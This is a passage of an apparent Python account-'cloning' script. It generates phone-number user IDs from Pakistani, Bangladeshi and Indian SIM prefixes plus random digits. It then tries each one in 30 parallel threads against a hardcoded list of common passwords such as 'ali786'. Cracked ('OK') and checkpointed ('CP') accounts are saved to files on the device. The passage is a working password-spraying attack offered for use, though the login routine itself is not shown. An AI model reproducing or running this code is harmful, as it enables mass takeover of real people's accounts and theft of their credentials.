         print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m5') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = ['khankhan','ali786','ali123','ali1122','aliali']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

def pass6():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER NAME\033[1;91m                :\033[1;96m "+NameX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m6') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')